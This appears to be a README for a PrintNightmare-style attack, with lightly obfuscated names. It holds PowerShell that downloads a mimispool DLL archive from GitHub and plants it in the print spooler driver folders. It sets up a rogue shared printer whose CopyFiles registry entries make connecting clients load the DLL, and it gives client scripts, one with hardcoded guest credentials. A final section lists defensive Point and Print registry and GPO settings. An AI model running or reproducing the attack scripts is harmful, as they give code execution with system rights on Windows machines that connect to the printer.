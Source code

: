 ## PowerShell commands

### Server

#### install
```
$printerName     = 'fPnk Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName

Invoke-WebRequest -Uri 'https://github.com/PQu4nQbtjF/NoTKaZ/releases/latest/download/NoTKaZ_trunk.zip' -OutFile '.\NoTKaZ_trunk.zip'
Expand-Archive -Path '.\NoTKaZ_trunk.zip' -DestinationPath '.\NoTKaZ_trunk'

Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\NoTKaZ_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\NoTKaZ_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')

Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared

New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\fPnk')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\fPnk')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\fPnk')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\fPnk')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null

```

#### uninstall
```
$printerName     = 'fPnk Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'

Remove-Printer       -Name $printerName
Start-Sleep -Seconds 2
Remove-PrinterDriver -Name 'Generic / Text Only'

Remove-Item -Force -Path ($drivers  + '\x64\3\mimispool.dll')
Remove-Item -Force -Path ($drivers  + '\W32X86\3\mimispool.dll')
Remove-Item -Force -Path ($system32 + '\mimispool.dll')

```

### Client

#### Any computer with explicit crEdential to `printnightmare.PQu4nQbtjF.com`
```
$serverName  = 'printnightmare.PQu4nQbtjF.com'
$username    = 'gentilguest'
$password    = 'password'
$printerName = 'fPnk Legit Printer'

$fullprinterName = '\\' + $serverName + '\' + $printerName
$crEdential = (New-Object System.Management.Automation.PSCredential($username, (ConvertTo-SecureString -AsPlainText -String $password -Force)))

Remove-PSDrive -Force -Name 'fPnkLegitPrintServer' -ErrorAction SilentlyContinue
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue

New-PSDrive -Name 'fPnkLegitPrintServer' -Root ('\\' + $serverName + '\print$') -PSProvider FileSystem -Credential $crEdential | Out-Null
Add-Printer -ConnectionName $fullprinterName

$driver = (Get-Printer -Name $fullprinterName).DriverName
Remove-Printer -Name $fullprinterName
Remove-PrinterDriver -Name $driver
Remove-PSDrive -Force -Name 'fPnkLegitPrintServer'
# mimispool still in spool\drivers

```

#### Computer in domain (single sign on with current user to print server)
```
$serverName  = 'print.lab.local'
$printerName = 'fPnk Legit Printer'

$fullprinterName = '\\' + $serverName + '\' + $printerName

Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName

$driver = (Get-Printer -Name $fullprinterName).DriverName
Remove-Printer -Name $fullprinterName
Remove-PrinterDriver -Name $driver
# mimispool still in spool\drivers

```

## Protect
_to adapt to your environment_

**Please, do not set `RestrictDriverInstallationToAdministrators` to `0` without these settings**

### Registry

#### `.reg` file
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint]
"PackagePointAndPrintOnly"=dword:00000001
"PackagePointAndPrintServerList"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers]
"1"="/your really legit servers or invalid entry !/"
```

#### commands
```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintServerList /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v 1 /t REG_SZ /d "/your really legit servers or invalid entry !/"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintOnly /t REG_DWORD /d 1
```

### Registry with real printer servers and allowing non-administrators to install package P&P drivers & printers

#### `.reg` file
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint]
"PackagePointAndPrintOnly"=dword:00000001
"PackagePointAndPrintServerList"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers]
"srv1.fqdn"="srv1.fqdn"
"srv2.fqdn"="srv2.fqdn"

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint]
"RestrictDriverInstallationToAdministrators"=dword:00000000
```

#### commands
```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintServerList /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v "srv1.fqdn" /t REG_SZ /d "srv1.fqdn"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v "srv2.fqdn" /t REG_SZ /d "srv2.fqdn"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintOnly /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint" /f /v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 0
```

### GPO / Local

In `Computer Configuration`, `Administrative Templates`, `Printers`, enable:
- `Only use Package Point and Print`
- `Package Point and Print - Approved servers`

![image](https://user-images.githubusercontent.com/2307945/129240741-b2a0ba14-6858-4c3f-ad07-07fa55efca29.png)

### GPO with real printer servers and allowing non-administrators to install package P&P drivers & printers

Same configuration as previously - _with real printer server names this time_ - but do not forget to add registry key `RestrictDriverInstallationToAdministrators` to `0`

![image](https://user-images.githubusercontent.com/2307945/133833820-a66b3ffd-a3aa-43a2-a1bf-14581a2a7492.png)
